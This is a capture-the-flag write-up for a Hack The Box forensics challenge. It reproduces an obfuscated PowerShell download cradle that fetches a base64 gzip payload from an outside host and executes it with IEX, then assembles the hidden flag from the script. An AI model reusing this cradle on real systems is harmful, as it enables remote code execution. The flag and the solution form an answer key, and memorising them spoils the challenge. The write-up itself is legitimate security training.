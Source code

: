 # Alien Cradle
> Write-up author: vreshco
## DESCRIPTION:
In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners 
that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, 
otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. 
However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?In an attempt for the aliens to find more information about the relic, 
they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, 
Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. 
These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. 
Can you help her deobfuscate it?
## HINT:
- NONE
## STEPS:
1. Unzipping the .zip file shall resulting to a .ps1 script file.

> THE SCRIPT

```
if([System.Security.Principal.WindowsIdentity]::GetCurrent().Name -ne 'secret_HQ\Arth'){exit};$w = New-Object net.webclient;$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;$d = $w.DownloadString('http://windowsliveupdater.com/updates/33' + '96f3bf5a605cc4' + '1bd0d6e229148' + '2a5/2_34122.gzip.b64');$s = New-Object IO.MemoryStream(,[Convert]::FromBase64String($d));$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

2. Well we can clearly see the flag partition there and concate them all shall giving us the full flag.
3. Got the flag.

## FLAG

```
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

